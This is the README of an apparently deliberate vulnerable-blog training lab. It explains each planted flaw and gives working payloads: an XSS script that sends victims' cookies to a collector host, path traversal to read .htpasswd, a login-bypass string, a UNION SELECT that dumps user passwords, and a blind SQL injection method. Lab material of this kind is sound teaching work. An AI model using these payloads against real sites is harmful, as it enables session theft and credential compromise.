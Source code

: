 # Fake blog to hack for newbie training

## Overview

This is a fake blog that has many kinds of web vulnerabilities. This is usefull because it can be use to teach to newbies that web vulnerabilities exist and can be very damaging.

## Warning

It can be installed on a typical LAMP installation. You MUST NOT installed it on a production server or any server or network that should not be compromised. REMEMBER that the vulnerabilities on this application are REAL VULNERABILITIES. I am NOT RESPONSIBLE for what you do with it. 

## How to install it

The `blog_hack/` directory or the content of it have to be downloaded to your Apache `www` directory. Often, it is located to `/var/www/` on GNU/Linux system. 

You should edit the `blog_hack/init.php` file with your MySQL information. The default password of the admin user is `salut123`.

The `blog_hack/admin` directory has an `.htpasswd` file. The `admin` user password is `admin`. If you want to modify it, you must encrypt it if you are on GNU/Linux because Apache force to do so.

## How to use it

Here is a list of all vulnerabilities on this blog. If you don't want to know them because you want to discover them by yourself, you should stop reading this right now and begin to play with the application. Remember, you're not supposed to know the default credentials mentionned above.

### Form validation vulnerability

First of all, there is a form validation vulnerability in the subscription form. What you have to do is to submit the first form with "Level 1" account and then you arrive on a second page which is a hidden form. If you check the source, you'll see that there is a `type` field and a `total` field. So if you check in the first form for the values, you'll see that the value for the level 2 is 2. But here's the trick, you have to modify the `type` field in the second form with a value of 3 instead of 1 or 2 and you must not modify the `total` field because, in the validation, only the `total` field is validated but not the `type` field but what's inserted in the DB is the `type` field. Then, you submit the hidden form. You normally should be able to comment on blog article.

### XSS vulnerability

A XSS (means Cross-site scripting) vulnerability is a vulnerability that permits the user to inject some Javascript in a web page. Mainly, if you discover a XSS in a web site, you're able to steal user cookies, use them to connect to the web site as them and having access of all information that the user has access.

#### Non-persistent XSS

In the blog members list, you can search for members on the web site. If you enter quotes in the search field, you can end the html input tag and begin a script tag.

In the root directory of this repo, there is a `cookies.php` file and a `cookies.html` file. You have to download these 2 files to the web server of your choice. You can choose the same web server that you put the `blog_hack` site. Basically, what the `cookies.php` file does is to take a GET request with a parameter named `c` and writes it to the `cookies.html` file. You have to be sure that the `cookies.php` script has rights to write to the `cookies.html` file. I don't know the exact right that these files need to have so you can do a `chmod 777 cookies.php cookies.html` to be sure. You also can do that via FTP if you want.

So, all is in place. Let's the hacking begin! The goal of the manipulations here is to create an URL to send to a user that will redirect him to the `cookies.php` file with his cookie in the `c` parameter. Here is what you have to enter in the search field: `"> <script>document.location = "http://yourdomain/your/path/cookies.php?c=" %2b document.cookie;</script>`. The `%2b` is simply url encoded version of the `+` character; if we don't url encode it, it will be replaced by a space by your web browser if you enter it in the URL bar instead of the search field. If you enter it in your browser, you'll send your own cookies to you. Normally, the goal is to send an URL that contains this search to a user but this is not covered in this demonstration.

#### Persistent XSS

A persistent XSS is exactly the same as a non-persistent XSS except that the persistent XSS is inserted in a DB and all user that arrive on a certain page will be victim of the XSS. So, there is a persitent XSS in the comment section of each blog entry. The exploit technique is absolutly the same except you don't have to send a URL to a user and just wait that someone came to the page.

### File inclusion vulnerability

File inclusion vulnerabilities are vulnerabilities that can able an attacker to include a file not supposed to be include in the page. A classic example of this vulnerablity is a web site that take a parameter `page` in the URL to show the good page to the client. The URL usually looks like `http://mywebsite.com/index.php?page=home.php`. So, if the developper didn't secure his function, it is possible to include many files often on the server itself. More rarely, you could be able to include an external file and then execute the content of this file by PHP so doing what you want on the server.

So, what do we have here? There is a `page` parameter. If you try to write anyting else in this parameter, you'll see that the `.php` is added at the end of the include function. It's not very convenient. Also, you can notice that you're not able to include external files because the include file begin with `./include/`. But, if we look for vulnerabilities in the include function of PHP, we'll find that `include` had a vulnerability, in old version of PHP, that permitted to skip the end of the include string by inserting a NULL byte in the string because PHP stopped reading the string if it read a NULL byte. 

So now, we know we can possibly\* include any files on the web server if the user that executes PHP has the right to read these. Of course, if the system administrators are very dump, we could read the `/etc/shadow` and `/etc/passwd` files. But let's suppose they're not for the case here. If you do some tests on the website, you may have discovered there is a `admin/` URL with a username and a password. So, to discover what are the credentials, we use the file inclusion vulnerability we discovered and we do an URL like this: `index.php?page=../admin/.htpasswd`. And boom, we now have a hashed version of the admin user password. You can now use any tool that crack hashes and will discover that the password is `admin`.

To explain the URL, the first two dots (`../`) are there because if you remember the include string was begining with `./include/` so we need to come back because we want to go in the `./admin/` directory and not the `./include/admin/` directory. Finally, the `.htpasswd` file is the standard file for Apache HTTP password configuration (Htaccess).

\* In this case, this vulnerability is simulated. This is the only simulated vulnerability because this vulnerability has already existed but is not anymore available.

### SQL injection

The goal of this vulnerability is to inject SQL statement into SQL queries that are not intended to. To be able to exploit SQL injection, you have to know some basis of SQL. A classic SQL injection is when you have a login form that don't escape character in the username. Let's think how the SQL query might be build to verify if the user and the password match: `"SELECT * FROM users WHERE login = '".$_POST['login']."' AND password='".md5($_POST['password'])."'"`(in PHP). So, to bypass this verification, you can see that the login field is not verified against injection so you can inject any SQL fragment you want. Then, one injection that could bypass this verification could be `admin' #`. The single quote after the username is because we have to clause the SQL string opened in the query. Finally, we have a hashtag character because we don't want that SQL verifies the password we entered so the hashtag is just a comment for the rest of the line.

#### Classical SQL injection in the fake blog

In the blog, there is two SQL injection. The first one is a more classical injection. If you go in the members list page and click on one members, you'll have an URL that looks like that: `index.php?page=profile&id=1`. So, if you play a little with the id parameter, you'll see that it can generate SQL error if you let a number at first character. The tricks to exploit this SQL injection is to put a number that don't exist as an ID for a user in the database. With guessing, you'll arrive with that string: `-1 UNION SELECT id,login, password from user`. You could have found the name of the tables by guessing because they are very simple and usual or you could have found these by querying the MySQL catalog (see at the end of this text).

#### Blind SQL injection

The second one SQL injection in the blog is called a "Blind SQL injection". The qualifier "blind" simple means that you can't directly see what you want to see; you have to find clue about whaat you have like a blind person do with a stick. More formal, a blind SQL injection is when you can have boolean clue about what is executed in the SQL query. For instance, if you have a page saying that your answer is wrong and with a good injection SQL, the page says that your answer is good then you have a blind SQL injection.

In the blog, you maybe have notice there is a message in the bottom of each that says: "The browser you are currently using is not supported by our blog. This may cause some bugs. This message will disappear once you have a good browser.". In web hacking, it is important to know how HTTP works. With a message like that, normally, you'll think about HTTP user-agent and you're right. You can also guess if your browser provide a good HTTP user-agent, the message will disappear as said in the message. So, if you tried to inject some data like quote (') in the user-agent, you'll see SQL errors.

The goal here is to inject SQL fragment and see if the message disappear or not. Usually, you try to find how long the string in the database is first. Then, you try to brute-force each by each character of the string by a set of characters you choose. After that, you have all you need. For the first step, you can use the `LENGTH(mycolumn)` SQL function and compare it with a range of number until it return true. For the second step, you can use the `SUBSTRING(mycolumn, i, 1)` SQL function where `i` is the index of the character in the string to brute-force and also compare it with a set of characters you choose. You can see all that in the "Exploit\_Blog\_hack.php" file where the attack is made to find the password of the admin user.

## Others

### MySQL catalog

### Useful tools in web haking

### Instinct

### Useful links
